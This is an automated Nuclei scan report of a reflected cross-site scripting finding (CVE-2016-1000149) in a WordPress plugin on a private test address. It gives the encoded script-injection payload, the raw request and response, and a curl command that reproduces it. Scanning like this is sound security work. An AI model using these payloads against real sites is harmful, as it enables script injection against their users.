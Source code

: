 ### Simpel Reserveren 3 <= 3.5.2 - Reflected Cross-Site Scripting (XSS) (CVE-2016-1000149) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2016-1000149**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/simpel-reserveren/edit.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:06 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Simpel Reserveren 3 <= 3.5.2 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2016, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | Reflected XSS in wordpress plugin simpel-reserveren v3.5.2 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2016-1000149](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1000149) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/simpel-reserveren/edit.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 241
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/simpel-reserveren/edit.php?page=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2016-1000149
- https://wordpress.org/plugins/simpel-reserveren
- http://www.vapidlabs.com/wp/wp_advisory.php?v=474
- http://www.securityfocus.com/bid/93582

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F' 'http://192.168.198.179:8080/wp-content/plugins/simpel-reserveren/edit.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)